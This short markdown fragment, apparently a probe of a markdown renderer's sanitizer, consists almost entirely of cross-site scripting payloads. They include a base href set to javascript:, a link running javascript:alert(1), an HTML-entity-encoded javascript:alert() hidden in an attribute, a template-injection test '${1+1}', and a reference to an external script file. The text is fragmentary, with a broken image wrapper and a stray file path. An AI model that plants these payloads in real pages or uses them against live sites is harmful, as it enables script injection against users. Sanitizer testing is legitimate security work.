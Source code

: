![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<head><base href="javascript://"></head><body><a href="/. /,javascript:alert(1)//#">XXX</a></body>

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id="${1+1}">bbbb</div>
<span value="javascript:document.getElementById('user-content-meu').src='123';">aaa</span>

](()
